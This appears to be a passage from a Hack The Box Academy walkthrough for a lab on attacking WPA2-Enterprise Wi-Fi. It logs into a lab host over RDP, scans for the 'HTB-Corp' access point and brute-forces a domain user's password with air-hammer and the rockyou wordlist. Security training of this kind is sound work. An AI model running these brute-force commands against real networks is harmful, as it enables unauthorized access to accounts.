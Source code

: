 ```
┌─[eu-academy-6]─[10.10.14.121]─[htb-ac-8414@htb-jarizq3npu]─[~]
└──╼ [★]$ xfreerdp /v:10.129.5.83 /u:wifi /p:wifi /dynamic-resolution 

[02:37:11:970] [30449:30450] [ERROR][com.winpr.timezone] - Unable to find a match for unix timezone: US/Central
[02:37:12:271] [30449:30450] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[02:37:12:271] [30449:30450] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[02:37:12:283] [30449:30450] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[02:37:12:283] [30449:30450] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
[02:37:12:283] [30449:30450] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel disp
```

Students will open a terminal and switch to the root's user context:

Code: shell

```shell
sudo -s
```

```
wifi@WiFiIntro:~$ sudo -s
```

They will use `iwlist` to scan the network for available access points using the `wlan0` interface to find the `HTB-Corp` access point:

Code: shell

```shell
iwlist wlan0 scanning | grep 'Cell\|Quality\|ESSID\|IEEE'
```

```
root@HTB-Corp:/home/wifi# iwlist wlan0 scanning | grep 'Cell\|Quality\|ESSID\|IEEE'

          Cell 01 - Address: 5C:64:F1:C0:10:A1
                    Quality=70/70  Signal level=-30 dBm  
                    ESSID:"HTB-Corp"
                    IE: IEEE 802.11i/WPA2 Version 1
```

Next, students will change their current working directory to `/opt/air-hammer` and perform a brute-force attack against the `HTB\Sentinal` user using the `rockyou.txt` wordlist located in the `/opt` directory to attain the password for the user:

Code: shell

```shell
cd /opt/air-hammer
echo "HTB\Sentinal" > user.txt
python2 air-hammer.py -i wlan0 -e HTB-Corp -p /opt/rockyou.txt -u user.txt
```
